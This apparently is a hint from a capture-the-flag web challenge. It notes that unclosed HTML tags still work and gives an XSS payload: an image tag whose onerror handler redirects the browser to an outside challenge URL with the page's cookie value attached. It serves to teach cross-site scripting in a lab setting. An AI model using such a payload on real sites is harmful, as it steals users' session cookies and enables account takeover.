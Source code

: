 Hint: HTML works even if tags are not closed!

Do not close the tag:
<img src="XSS" onerror="window.location='https://chall.necst.it/challenges/web7/verify/2449/'+document.cookie.split('=')[1];"
